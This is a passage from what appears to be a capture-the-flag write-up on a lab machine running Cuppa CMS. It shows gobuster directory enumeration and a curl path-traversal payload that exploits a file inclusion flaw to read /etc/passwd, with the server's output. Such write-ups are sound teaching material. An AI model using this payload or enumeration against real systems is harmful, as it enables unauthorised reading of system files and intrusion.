 Line `1.` is very interesting, it seems to give us a hidden directory on the web page.

![W67t8DO](https://user-images.githubusercontent.com/69171981/119408798-26b0b600-bc9b-11eb-97b5-ef658f2e74e4.png)

Going to the directory we see that it is *Miles Dyson's Personal Page*. After looking through the source code and doing some steganography on the image there was nothing so, I decided to start up gobuster.

```
$ gobuster dir -u http://10.10.146.95/<REDACTED>/ -w /opt/directory-brute.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.146.95/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/directory-brute.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/23 21:30:46 Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 337] [--> http://10.10.146.95/<REDACTED>/administrator/]
```
We get a hit!

![WZaoXoE](https://user-images.githubusercontent.com/69171981/119408827-329c7800-bc9b-11eb-8cf1-565dfd67b360.png)

Once again we are greeted with a login page, this time for `Cuppa` cms. After a bit of research I found [this](https://www.exploit-db.com/exploits/25971) post on `exploit-db` for a <REDACTED> file inclusion exploit.

Reading through the post, we see that the vulnerability is inside of the `/alerts/alertConfigField.php` file combined with the `?urlConfig` parameter. According to the post, "User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output."

We can test this vulnerability by using some LFI techniques.

```
$ curl http://10.10.146.95/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
```